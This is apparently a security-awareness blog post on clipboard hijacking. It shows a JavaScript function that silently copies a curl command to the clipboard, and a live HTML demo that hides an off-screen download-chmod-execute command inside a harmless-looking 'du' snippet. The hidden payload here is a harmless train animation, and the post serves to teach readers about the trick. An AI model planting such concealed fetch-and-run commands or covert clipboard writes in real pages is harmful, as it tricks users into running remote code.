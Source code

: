 The nefariousCopy function creates a dummy text element and selects its' contents. Using [`execCommand(copy)`](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Interact_with_the_clipboard) the dummy text is copied to the clipboard and the user is none the wiser.
```
function nefariousCopy(n) {
  var dummy = document.createElement("textarea");
  document.body.appendChild(dummy);
  dummy.textContent = `curl -L https://nickstanley574.github.io{{ page.asset }}/ghostbusters \n`;
  dummy.select();
  document.execCommand("copy");
  document.body.removeChild(dummy);
}
```

This is what is copied to the clipboard when the copy button is clicked:
```
curl -L https://nickstanley574.github.io{{ page.asset }}/ghostbusters \n
```

Using `select()` plus `execCommand()` is the way most copy buttons work, just instead of adding a dummy element, they select and copy the text from elements seen by the user, but the user is at the mercy of the copy function.

## Select, Copy & Paste

Lets go back to Look at another post from  totally-safe-and-helpful.blog.

<div id="totallysafeandhelpful">

  <h3>Welcome back to totally-safe-and-helpful.blog</h3>

  Today we are going to explore how to find the files taking up all your harddisk space using the <b>du</b> command.

  <br><br>
  <div class="code">du -hs *<span style="position: absolute; top: -200px; left: -200px;">; curl -s -L https://nickstanley574.github.io/{{ page.asset }}/sl --output sl; chmod +x sl; ./sl; clear;<br>du -hs * </span> | sort -rh | head -5</div>
  <br>
</div>

Seems safe enough; Looks like any other code snippet on the internet. You can see where this is going. All aboard 🚂 !

<div style="text-align: center;">
<video style="max-width: 90%;"  controls>
  <source src="{{ page.asset }}/choochoo.webm">
  Your browser does not support HTML video.
</video>
</div>

```
<div class="code">
  du -hs *
  <span style="position: absolute; top: -200px; left: -200px;">
  "; curl -s -L https://nickstanley574.github.io//assets/posts/dont-trust-your-clipboard/sl --output sl; chmod +x sl; ./sl; clear;"
  <br>
  du -hs *
  </span>
  | sort -rh | head -5
</div>
```
